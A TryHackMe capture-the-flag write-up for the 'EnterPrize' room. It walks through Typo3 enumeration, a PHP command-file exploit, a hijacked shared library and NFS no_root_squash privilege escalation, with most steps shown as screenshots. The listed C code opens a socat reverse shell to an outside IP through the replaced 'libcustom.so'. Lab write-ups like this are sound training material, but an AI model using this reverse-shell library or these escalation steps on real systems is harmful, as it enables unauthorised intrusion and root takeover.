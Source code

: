 ```yaml
---
title: EnterPrize TryHackMe Writeup
tags: [writeup,rest,python,tryhackme,linux,api,suid]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/1.jpeg)

## Scanning
We launch **nmap** to all ports, with script and software version.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/2.png)

## Enumeration
We access the web resource, but there is nothing.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/3.png)

We launch the **nikto** tool and find the file *"composer.json"*, these files usually reveal interesting information.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/4.png)

#### Contents of the file "composer.json"

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/5.png)

It seems that there are leftover files from **CMS Typo3**, I check several paths but I can't find anything.... But maybe it is in another *subdomain* by virtual hosting (vhost).

We launch the **wfuzz** tool in vhost mode:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/6.png)

We add the subdomain to our */etc/hosts file*, access the new site and find the **Typo3 CMS** that we listed information in the previous file.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/7.png)

For this CMS I used the **[Typo3Scan](https://github.com/whoot/Typo3Scan)** tool to find vulnerabilities in this cms.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/8.png)

List the control panel:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/9.png)

We enter credentials by guessing, it seems to work, but the site has gone into maintenance mode and we no longer have access to the panel.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/10.png)

We launch **dirsearch**, list several interesting files and folders.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/11.png)

Access the *"/typo3conf"* directory and list the *"LocalConfiguration.old"* file.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/13.png)

#### Part of the content of the "LocalConfiguration.old" file

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/14.png)

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/15.png)

## Exploitation


We list the sections of the site, we find a form from which we could carry out the exploitation.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/17.png)

We follow the instructions in the article and create a payload to generate the file *"m3.php"* and execute commands through it.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/18.png)

#### Sending malicious request:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/19.png)

#### Proof of concept

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/20.png)

#### Reverse shell

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/21.png)

We make an enumeration in the only user that has home, we find some files and a binary that seems interesting.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/26.png)


We check the libraries, we see that it calls *"libcustom.so"*, we see that we also have write permissions, so it would make a lot of sense to replace the file with another illegitimate one.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/27.png)

#### Contents of file libcustom.c

```C
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void do_ping(){
    system("/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.6.62.222:5555", NULL, NULL);
}
```

We see that the configuration file has a symbolic link to a *"test.conf"* file in the folder, this file is not found but we can write it.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/29.png)

We run the **pspy64** tool and we see that every few minutes it executes the binary and with it our reverse shell.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/28.png)

We wait a few minutes, get shell as the user *"john"* and read the user flag.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/30.png)

## Privilege Escalation
In the previous enumeration, we saw that there is an nfs working internally, but we did not have access with the user *"www-data"*. 
In the evidence we see that it is vulnerable to **"no_root_squash"**, this vulnerability would allow us to be able to run a shared binary on our machine and get the same privileges of its SUID.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/23.png)

Hacemos port forwarding con **chisel** al servicio **NFS**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/31.png)

We authenticate as root, create a malicious binary, compile and give it permissions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/34.png)

Run the binary from the victim's nfs directory and you will become root.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/EnterPrize/35.png)




